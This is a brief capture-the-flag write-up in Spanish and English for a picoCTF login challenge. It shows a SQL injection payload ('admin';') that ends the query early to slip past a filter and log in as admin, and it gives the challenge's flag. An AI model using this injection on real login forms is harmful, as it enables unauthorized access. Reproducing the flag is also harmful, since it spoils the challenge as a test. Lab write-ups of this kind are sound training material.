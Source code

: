## Objetivo

There is a website running at `https://jupiter.challenges.picoctf.org/problem/52849/` ([link](https://jupiter.challenges.picoctf.org/problem/52849/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or

## Datos de Acceso al Nivel

([link](https://jupiter.challenges.picoctf.org/problem/52849/))
## Solucion

```
username: admin';
password: password
SQL query: SELECT * FROM users WHERE name='admin';' AND password='password'

# Logged in!

Your flag is: picoCTF{m0R3_SQL_plz_fa983901}
```

## Notas Adicionales

el sitio tenia un detector de intyeccion sql por lo que en el admin se pone un ' y un ; para hacer que termine la consulta

## Referencias